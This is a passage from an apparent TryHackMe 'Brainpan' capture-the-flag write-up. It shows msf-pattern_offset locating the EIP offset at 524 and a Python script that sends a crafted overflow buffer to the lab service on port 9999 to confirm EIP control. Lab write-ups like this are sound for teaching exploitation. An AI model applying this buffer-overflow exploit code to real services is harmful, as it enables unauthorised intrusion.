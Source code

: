 EIP now has a value of 35724134. I use msf pattern offset to determine the EIP offset.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Brainpan]
└──╼ $msf-pattern_offset -l 700 -q 35724134
[*] Exact match at offset 524
```

Great the offset is 524. To make sure its correct I've updated the script with a buffer of 524 A's, 4 B's which is what will be shown as 42424242 in EIP and the remaining bytes as D's. Ive also added a slight offset of 4 C's

```highlight
#!/usr/bin/python3

import sys, socket
from time import sleep

filler = "A" * 524
EIP = "B" * 4
offset = "C" * 4
junk = "D" * (700 -len(filler)-len(EIP))
buffer = filler + EIP + offset + junk


try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("brainpan",9999))
    s.recv(1024)
    s.send(buffer + "\r\n")
    s.close()

except:
   print("Application crashed")
   sys.exit()
```

I ran the exploit script again.

![EIP](/assets/images/brainpan/EIP.png)
